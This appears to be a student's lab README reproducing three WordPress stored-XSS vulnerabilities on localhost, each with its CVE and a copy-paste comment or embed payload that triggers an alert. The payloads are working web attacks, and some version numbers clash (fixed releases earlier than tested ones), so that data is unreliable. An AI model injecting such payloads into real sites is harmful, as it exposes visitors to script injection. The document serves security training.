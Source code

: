 # Codepathweek7
Exploit 1: “Upload Same Origin Method Execution”
-	[x] Summary: Attacking the system via a user clicking on a malicious comment that alerts the user. This click was led the user to involuntarily installing a plug-in on their system.
    -	Vulnerability type: XSS
    -	Tested in version: 4.5.1
    -	Fixed in version: 4.2.8
- [x] GIF Walkthrough:	
    -   attack_1.gif
- [x] Steps to recreate: 
1.	Go to any post.
2.	Paste the following as a comment:
<button onclick="fire()">Click</button>
<script>
function fire() {
open('javascript:alert("exploit 1: Same Origin Method Execution")');
}
</script>
3.	Click on the button.
4.	Alert(“exploit 1: Same Origin Method Execution”) will pop up.
-	[x] Affected source code:
      	http://localhost/wp-admin/comment.php?action=editcomment&c=9
-	CVE:   2016-4566



Exploit 2: “Unauthenticated Stored Cross Site-Scripting (XSS)”
-	[x] Summary: Attacking the system when a vulnerable user comes in contact on a malicious webpage that will then alert the user. 
    -	Vulnerability Type: Stored XSS
    -	Tested in version: 4.2
    -	Fixed in version: 4.2.1
-	[x] GIF Walkthrough:
    -	attack_2.gif
-	[x] Steps to recreate: 
1.	Go to any post
2.	Paste the following on a comment
<a title='x onmouseover=alert(unescape(/Exploit2:%successful/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA…’></a>
3.	Post the comment 
4.	Once the text is visible to the user, the alert will pop up
-	[x] Affected source code:
    http://localhost/wp-admin/comment.php?action=editcomment&c=8 
-	CVE:   2015-3440




Exploit 3: “Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
-	[x] Summary: Attacking the system via a user clicking on a malicious link that will alert the user. Clicking this embedded “YouTube” link will send an alert to the user. 
    -	Vulnerability types: XSS
    -	Tested in version: 4.0-4.7.2
    -	Fixed in version: 4.2.13
-	[x] GIF Walkthrough:
    -	attack_3.gif
-	[x] Steps to recreate: 
1.	Create new post 
2.	Inside the body of the new post insert this code

[embed src='https://youtube.com/embed/1234\x3csvg onload=alert("vulnerable!")\x3e'][/embed]

3.	Save changes to the post and see the imbedded link, click on view post 
4.	An alert window will pop up once redirected with the message “vulnerable”

-	[x] Affected source code:
     http://localhost/wp-admin/post.php?post=28&action=edit 
-	CVE:   2017-6817




## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

